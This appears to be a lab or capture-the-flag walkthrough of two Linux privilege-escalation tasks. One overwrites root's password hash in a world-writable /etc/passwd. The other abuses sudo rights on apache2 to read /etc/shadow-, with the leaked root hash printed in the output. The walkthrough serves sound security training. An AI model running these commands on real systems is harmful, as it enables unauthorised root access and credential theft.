 You're Done root 😎

# Task 5 : Weak File Permissions - Writable /etc/passwd

Note that the /etc/passwd file is world-writable:
```
ls -l /etc/passwd
```
Generate a new password hash with a password of your choice:
```
openssl passwd password
```
Now edit the /etc/passwd file and replace x with the new genrated password\
`root:x:0:0:root:/root:/bin/bash` to `root:IMyXn8qsuEBEo:0:0:root:/root:/bin/bash`

Login to root `su root` get the id using `id` command and You're done 😎

# Task 6 : Sudo - Shell Escape Sequences

List the programs which sudo allows your user to run:
```
sudo -l
```
output
```
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more

```
search [GTFObins](https://gtfobins.github.io/) for sudo escape sequence 
here apache doesn't have a escape sequence but we can use this to read a file that we don't have permission to :
```
cat /etc/shadow-
cat: /etc/shadow-: Permission denied
```
but with apache2 
```
sudo apache2 -f /etc/shadow-
Syntax error on line 1 of /etc/shadow-:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
And You're done 😄
